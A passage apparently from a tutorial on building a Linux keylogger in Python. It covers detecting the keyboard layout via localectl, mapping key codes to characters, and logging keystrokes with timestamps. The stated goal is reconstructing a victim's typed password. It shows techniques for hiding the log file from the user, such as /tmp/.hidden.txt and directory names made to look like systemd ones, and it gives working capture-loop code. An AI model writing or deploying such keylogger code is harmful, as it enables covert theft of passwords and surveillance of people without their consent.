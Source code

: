 The second part, i.e. the function `get_keyboard_layout`, determines the language the keyboard is set to. To achieve this, we make use of the terminal command `localectl`, which outputs something like
```console
$ localectl
   System Locale: LANG=de_DE.UTF-8
       VC Keymap: n/a
      X11 Layout: de
       X11 Model: pc105
```
This means that we can extract the X11 Layout with some Python code, which can be seen in the above function. Moreover, I defined two key maps `german_map` and `us_map`, which give a one-to-one mapping between keys and characters. For instance, `german_map` includes `..., 37: 'k', 38: 'l', 39: 'ö',...`. If we want to include further layouts, we should do it in this function. 

These maps also include special keys like `[ENTER]` and `[BACKSPACE]`. This is important for the following reason: say we run the keylogger on the target machine and the victim starts typing their password `Passwd%123` but they accidentally press the `w` key twice. In order to keep track of the real password, we want the output to be `Passww[BACKSPACE]d%123`, and not `Passwwd%123`. Later we could additionally write a script that deletes `[BACKSPACE]` together with the character preceding it.

Another consideration is upper case characters. We could simply make the keylogger output `[SHIFT]a` instead of `A`, but with some additional Python code we can make sure that capitalization is respected.

### 1.2 Writing Characters into a Text File

Now that we have determined the keyboard layout, we still need to write a function which captures the key strokes and appends them to a text file, that we can extract when the logging is done. First of all, we must decide where to store the file. To avoid detection, a keylogger must store its log file in a location that is both hidden from the user and allows the program to write to it without special permissions. A natural candidate for this is the `/tmp` directory. One can go further and create more subdirectories, perhaps mimicking existing ones such as 
```text
systemd-private-f2ba2e3a8d7c44c1b9ab924ca6d3748d-systemd-timesyncd.service-DZPBIs
```
For a simple proof of concept, I decided to write the output into `/tmp/.hidden.txt`, just to add one more layer of detection avoidance. In the code, we simply use the `os` library to create the file:
```py
log_dir = "/tmp/"
log_file = os.path.join(log_dir, ".hidden.txt")

try:
    os.makedirs(log_dir, exist_ok=True)
except Exception as e:
    exit(1)
```
Next, we start writing into the text file. Roughly spreaking, any time a key is pressed, it is printed to `.hidden.txt` together with its timestamp, just for some additional information.
```py
try:
    while True:
        for device in keyboards:
            try:
                event = device.read_one()
                if event and event.type == ecodes.EV_KEY:
                    if event.value == 1:
                        timestamp = datetime.now().strftime("%Y-%m-%d %H:%M:%S")
                        key_char = get_shifted_character(
                            event.code, layout, current_shift, caps_lock, key_map, shifted_maps
                        )
                        if event.code not in MODIFIERS:
                            log_entry = f"{timestamp}:{key_char}"
                            with open(log_file, "a") as f:
                                f.write(log_entry + "\n")
```